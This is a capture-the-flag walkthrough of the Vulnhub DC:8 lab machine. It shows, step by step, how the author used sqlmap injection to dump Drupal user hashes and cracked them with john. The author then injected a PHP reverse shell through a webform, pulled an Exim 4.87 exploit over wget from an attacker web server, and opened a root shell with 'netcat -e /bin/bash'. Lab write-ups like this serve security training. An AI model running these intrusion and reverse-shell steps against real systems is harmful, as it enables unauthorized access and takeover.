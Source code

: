 # DC:8 CTF Walkthrough (Vulnhub) 

###### <p align="center"> *This is official repository maintained by me*</center> </p>
###### <p align="center"> *[yigitdrbk](https://www.instagram.com/yigitdrbk/) *</center> </p>

DC:8 is a CTF created by DCAU. You can find the technical information about this CTF on the VulnHub page. First of all, make sure to download and install the correct OVA file from VulnHub. (https://download.vulnhub.com/dc/DC-8.zip)

This CTF is quite challenging, and it's a bit difficult to locate the vulnerability at first. However, once you find it, the rest of the machine is not too hard, especially if you're good at searching for information. This machine requires a solid understanding of file permissions and SUID concepts.

## 1 - Reconnaissance

I scanned open ports first with Rustscan and then continue with version and script scan with nmap. And then tried to perform directory scan but nothing important show up. But still I will give you the commands.

```bash
rustscan <machine_ip>
nmap -PN -sS -sV --script vuln <machine_ip> -p <open_ports> -oN finalscan

dirsearch -u <machine_ip>
```
The website uses Drupal Cms again, but the version doesn’t have any vulnerability.

I checked the robots.txt file, source code, etc., but didn’t find anything significant. I tried using Nikto and SQLMap. Nikto didn’t return any results, but SQLMap was different. Apparently, I can access the database with SQLMap.

I suspected to sql injection because each website links the url was different.

## 2- Enumeration

```bash
sqlmap -u 'http://<machine_ip>/?nid=1' 
```

It gave me the databases. And with the below 2 databases , I tried to enumerate d7db.

![DC8](https://miro.medium.com/v2/resize:fit:828/format:webp/1*E02j5k_tCrer5rY5cQRK8w.png "DC8")

```bash
sqlmap -u 'http://<machine_ip>/?nid=1' -D d7db --tables
```

One of the tables name was ‘users’ so I tried to enumerate it.

```bash
sqlmap -u 'http://<machine_ip>/?nid=1' -D d7db --tables -T users --dump
```

There was just 2 users : john and admin. And both of them have drupal7 hash. I tried to crack it with john. I knew it was drupal hash because I searched it on ‘https://hashes.com/en/tools/hash_identifier’.

```bash
john --format=drupal7 hash.txt
```

I cracked john’s password. But I couldn’t crack admin’s. The John’s password was turtle.

(By the way , if you cracked the hash but you forgot it. John will say loaded 1 password hash no password hashes left so you should tried to command ‘ john — show hash.txt)

## 3-Website Side & Getting a Reverse Shell

I tried to SSH using John’s password, but it didn’t work. So, I attempted to log in with John’s credentials on the website and discovered I could edit certain elements on the webpage. I first tried editing the webform by changing its paragraphs. But most importantly, I found I could edit its actions and inject a PHP reverse shell. There was a confirmation message, which I replaced with PHP code. Then, I started a Netcat session on my local computer. Now, I have a shell.

![DC8](https://miro.medium.com/v2/resize:fit:828/format:webp/1*YewVscEz8JkaGobLtba-qA.png "DC8")

I tried to search what commands can I run with setuid permissions.

```bash
find / -perm -4000 -type -f 2>/dev/null
```

The above command give me some commands, but there was one interesting. It was “/usr/sbin/exim4”. I just go to that directory and tried to run it with ./exim4. It gave me the output.

```bash
./exim4
Exim is a Mail Transfer Agent. It is normally called by Mail User Agents,
not directly from a shell command line. Options and/or arguments control
what it does when called. For a list of options, see the Exim documentation.
www-data@dc-8:/usr/sbin$ 
```

## 4- Privilege Escalation

I searched on the internet if there is vulnerable with exim4. But the version must be given. I tried to add — version parameter know I know the version. So I tried to search “ exim4 4.87 exploit” the exploitdb comes out first.

So I just created the exploit.sh in my local computer than give it with wget on ssh session. Then run with netcat version.

```bash
vim exploit.sh
php -S 10.0.2.4:8000

(ssh session)
wget http://10.0.2.4:8000/exploit.sh
chmod 777 exploit.sh
```
It is crucial to make this operations on /tmp folder. Because the file permissions is different here.

And then I run the next commands to get a root netcat shell.

```bash
first run the netcat session on local.
rlwrap nc -lvnp 1332

# Usage (netcat method):
# $ id
# uid=1000(raptor) gid=1000(raptor) groups=1000(raptor) [...]
# $ ./raptor_exim_wiz -m netcat (./exploit.sh -m netcat in my case)
# Delivering netcat payload...
# Waiting 5 seconds...
netcat -e /bin/bash <local_ip> 1332
# localhost [127.0.0.1] 31337 (?) open
# id
# uid=0(root) gid=0(root) groups=0(root)
# 
# Vulnerable platforms:
# Exim 4.87 - 4.91
```

Now I have root session and I can read the root flag.

![DC8](https://miro.medium.com/v2/resize:fit:3836/format:webp/1*aOHeiiUyObxV3OBSsuBBig.png "DC8")

Developer / Author: [yigitdrbk](https://www.instagram.com/yigitdrbk/)